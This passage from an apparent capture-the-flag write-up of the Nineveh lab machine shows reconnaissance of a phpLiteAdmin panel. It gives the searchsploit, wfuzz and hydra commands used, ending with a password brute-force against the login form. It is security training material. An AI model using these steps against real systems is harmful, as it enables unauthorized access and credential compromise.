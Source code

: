 The other path I found with `nmap`, turns out to be the **[phpLiteAdmin](https://www.phpliteadmin.org/){:target="_blank"}** authentication panel, where I can see the version of **phpLiteAdmin** and the leakage of information due to a coding error. With `searchploit` I find two exploits for this technology, when analyzing the script that performs a **Remote PHP Code Injection**, it uses the default password, but in this machine it is not the one set. With `wfuzz` I find another hidden directory that turns out to be another web service implemented in **PHP** (information I get with **[Wappalyzer](https://www.wappalyzer.com/){:target="_blank"}**).

> **[phpLiteAdmin](https://www.phpliteadmin.org/){:target="_blank"}** is a web-based **SQLite** database admin tool written in **PHP** with support for **SQLite3** and **SQLite2**. Following in the spirit of the flat-file system used by SQLite, phpLiteAdmin consists of a single source file, phpliteadmin.php, that is dropped into a directory on a server and then visited in a browser.

```bash
# https://nineveh.htb/db/

searchsploit phplite 1.9
searchsploit -x php/webapps/24044.txt
# Default Password admin :(

wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://nineveh.htb/FUZZ
# department
```

<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

In the new service I found, which is an authentication panel, I try basic attacks like using default credentials or basic **[SQL injections](https://portswigger.net/web-security/sql-injection){:target="_blank"}**, but they don't work at the moment. In the **Source code** I find a strange message, maybe it is a vulnerability present in **MySQL**. What I'm going to do is not recommended in real audits, but I can't find another way for the moment, with `hydra` I'm going to do a brute-force attack on the first authentication panel following the instructions I found in a **Github** repository, **[Brute-Force-Using-Hydra-On-Login-Page](https://github.com/jayeshjawade/Brute-Force-Using-Hydra-On-Login-Page-){:target="_blank"}**, and I succeed to find the password.

```bash
# http://nineveh.htb/department/login.php
# Ctrl^u ---> <!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->

# https://nineveh.htb/db/index.php

hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password."
# https://nineveh.htb/db/index.php
# :)
```
